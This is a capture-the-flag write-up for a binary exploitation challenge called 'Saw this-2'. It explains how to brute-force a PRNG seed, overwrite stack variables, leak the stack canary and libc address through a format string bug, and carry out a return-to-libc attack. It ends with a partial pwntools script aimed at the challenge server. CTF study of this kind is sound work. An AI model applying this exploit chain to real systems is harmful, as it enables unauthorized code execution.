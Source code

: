 The line `initstate(0, statebuf, 8)` is required to get the correct number, since the original binary has the exact same line of code in the initial process. Finally, we get `N` = `0x0dbdbb1e`

So now everytime we send a `lucky_number`, it has to be `0x0dbdbb1e` - `seed`. Since `v8` is set to 17 now, whenever we send the 17th number, `v8` will be modify to the number we send, which means we can control the iteration numbers, and so are the variables on the stack.  

Here are some important variables we'll have to modify (overwrite):
1. `v8`. The iteration number
2. `v10`. Overwrite it to **1** so we won't lose the game. 
3. `format`. Modify the pointer to the `user_name` buffer's address (`0x603108`). Now we can trigger the format string vulnerability.
    
Notice that other important variables (ex.`luck_number`) will have to remain the same value after you overwrite the stack. As for the format string payload, at first I try to use **%n** to write the memory, until I found that the service **won't let us input our user name for second time**. Since we can't reuse the vulnerability, I decided to leak the **stack canary** and the **return address** ( which returns to `__libc_start_main` ).

Now we have the stack canary and the libc address. We can use the libc address to calculate the libc's base address, and get the address of `system`, `pop rdi, ret` gadget and `/bin/sh` string pointer. After we have all the information, we can overwrite the stack canary and the return address to launch a return-2-libc attack.

To sum up, here's the exploitation of Saw this-2:
1. Brute-Force the `srand` seed so `v8`(the iteration number) can be set to `17`.
2. Overwrite `v7[16]` (=`v8`), so we can overwrite the variables on the stack.
3. Overwrite `format` to the `user_name` buffer so we can trigger the format string vulnerability.
4. Leak the stack canary & return address.
5. Use the return adress to calculate libc's base address, so we can get `system`, `pop rdi, ret` & `/bin/sh`'s address.
6. Overwrite the stack canary & return address to launch the return-2-libc attack.  


```python
from pwn import *
import time

HOST = "87.107.123.3"
PORT = 31337
libc = ELF("./libc.so.6")

guess = [124,34,77,-48,68,-36,70,-6,62,99,-86,66,17,58,77,11,53]

r = remote(HOST, PORT)

# name buffer address = 0x603108
# %21$p -0xfd - 0x1edb0 = libc_base
# %17$p = canary

#send name
print r.recvuntil("call you? ")
name = "%17$p.%21$p."
name = name.ljust(60, "A")
name = name.ljust(64, "B")
assert len(name) == 64
r.send(name)

# exploit PRNG
s = r.recvuntil("!\n")
print "s:", s
seed = u32(s[s.index(name)+64:s.index("!"):].zfill(4))
log.success("seed: "+hex(seed))
print r.recvuntil("on it: ")
lucky_number = 0x0dbdbb1e - seed
lucky_hex = hex(lucky_number & 0xffffffff)
lucky_str = lucky_hex[lucky_hex.index("0x")+2::].zfill(8)
```